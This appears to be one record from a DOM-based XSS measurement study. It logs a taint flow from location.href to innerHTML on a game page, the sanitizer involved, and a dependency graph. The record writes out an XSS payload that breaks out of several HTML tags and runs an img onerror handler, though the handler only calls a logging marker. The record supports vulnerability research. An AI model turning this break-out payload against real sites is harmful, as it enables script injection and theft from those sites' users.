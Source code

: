 // Finding: 746f97dd-261d-4b91-90c4-5a0e6660fb27
// Finding.url: https://www.example61.com/game/farmheroessupersaga##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('37ba71795c8e4882a63bb8a36493361e')><!--/*
// Finding.parentloc: https://www.example61.com/game/farmheroessupersaga##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('37ba71795c8e4882a63bb8a36493361e')><!--/*
// Finding.domain: www.example61.com
// Finding.base_domain: example61.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 2
// Sanitizer.name: c.trim
// Sanitizer.location: https://k1.example62.com/js/app.min.js?_v=6w9vj5 - c.trim:2:842419
// Finding.begin: 53
// Finding.end: 78
// Finding.original_uuid: 8b2c4a99-91da-4188-a091-3e61e25540ad
// Finding.TwentyFiveMillionFlowsId: 1930568099
// Finding.script: https://k1.example62.com/js/app.min.js?_v=6w9vj5
// Finding.line: 2
// Exploit.uuid: 37ba7179-5c8e-4882-a63b-b8a36493361e
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: content
// Exploit.quote_type: "
// Exploit.tag: meta
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 5
// Exploit.replace_begin_url: 45
// Exploit.replace_end_url: 45
// Exploit.replace_begin_param: 38
// Exploit.replace_end_param: 38
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 2013369447
// DepGraph.sanitizer_hash: -1453325282
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 0"];
n4 [shape=box, label="Lit: 45"];
n5 [shape=ellipse, label="substr"];
n6 [shape=box, label="Var: x"];
n7 [shape=box, label="Lit: 8"];
n8 [shape=ellipse, label="substr"];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Lit: 12"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="RegExp: /^[	\n\r   ᠎             　\u2028\u2029﻿][	\n\r   ᠎             　\u2028\u2029﻿]*/"];
n13 [shape=box, label="Lit: "];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="RegExp: /[	\n\r   ᠎             　\u2028\u2029﻿][	\n\r   ᠎             　\u2028\u2029﻿]*$/"];
n17 [shape=box, label="Lit: "];
n18 [shape=box, label="Var: x"];
n19 [shape=box, label="Var: x"];
n20 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n6 -> n1;
n5 -> n6;
n5 -> n7;
n9 -> n5;
n8 -> n9;
n8 -> n10;
n14 -> n8;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n19 -> n15;
n20 -> n19;
}